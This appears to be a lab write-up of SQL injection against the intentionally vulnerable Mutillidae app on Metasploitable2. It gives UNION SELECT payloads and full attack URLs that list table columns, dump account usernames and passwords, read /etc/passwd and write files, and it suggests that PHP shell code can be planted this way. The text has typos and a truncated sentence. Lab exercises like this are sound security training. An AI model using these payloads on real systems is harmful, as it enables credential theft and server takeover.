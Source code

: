 Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/SubashiniSenniappan/sqlinjection/assets/119404951/0ca107a6-69fb-42df-b3fa-7a78fccd59b8)


The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=subashini%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/SubashiniSenniappan/sqlinjection/assets/119404951/47d3ca57-2374-41c4-9dd0-9d829d68e1e0)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=subashini%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/SubashiniSenniappan/sqlinjection/assets/119404951/67ca4bfe-5e9c-452d-8aca-cf712c0533a5)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=subashini%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details ![image](https://github.com/SubashiniSenniappan/sqlinjection/assets/119404951/f6ebd6e5-e492-4382-a520-395ea814f1e6)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
